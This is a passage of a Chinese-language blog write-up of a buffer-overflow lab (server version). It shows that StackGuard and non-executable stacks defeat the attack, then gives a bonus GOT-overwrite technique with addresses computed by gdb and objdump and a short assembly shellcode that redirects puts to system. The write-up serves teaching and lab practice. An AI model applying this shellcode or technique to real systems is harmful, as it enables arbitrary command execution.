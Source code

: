 效果如图：

![Screenshot 2024-04-03 at 6.46.52 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_6.46.52_PM.png)

![Screenshot 2024-04-03 at 6.46.25 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_6.46.25_PM.png)

# Tasks 7: Experimenting with Other Countermeasures

## Task 7.a: Turn on the StackGuard Protection

去掉 `-fno-stack-protector` 这个 `gcc` 编译的flag之后，StackGuard就会启动，然后测试一下发现缓冲区溢出会被防御掉：

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%202.png)

## Task 7.b: Turn on the Non-executable Stack Protection

在编译的时候，默认是栈不可执行，但我们之前通过设置 `-z execstack` 来让栈可执行。

测试可以发现会触发 `segmentation fault` 。

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%203.png)

# Bonus

首先看一下动态链接的原理：

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%204.png)

GOT表是可写的，所以我们在第一次动态链接前修改GOT表中 `puts` 的表项为 `system` 表项即可。

首先在本地使用 `gdb` 得到了 `puts` 和 `system` 的偏移量0x32190。然后根据远端打印出来的 `puts` 地址计算出 `system` 地址为0x7ffff7e27410。

![Screenshot 2024-04-04 at 8.32.28 PM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-04_at_8.32.28_PM.png)

然后用 `objdump` 找到了 `puts` 在GOT表的表项位置为0x4034c8。

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%205.png)

现在就可以写一个shellcode来修改这个表项为 `system` 的表项。修改好之后直接跳转到 `puts` 的执行位置，这个地址也是通过 `objdump` 来获得的。而且在这之前设置好 `rdi` 的值，通过 `objdump` 可以找到字符串的位置。

我尝试了一下跳转到其他位置，不会有任何的结果返回，我猜测是因为栈被我们堆满了垃圾，所以程序不能正常运行。

```assembly
BITS 64

mov byte [0x4034c8], 0x10
mov byte [0x4034c8 + 1], 0x74
mov byte [0x4034c8 + 2], 0xe2
mov rdi, 0x4020a0
mov rax, 0x40129c
jmp rax
```
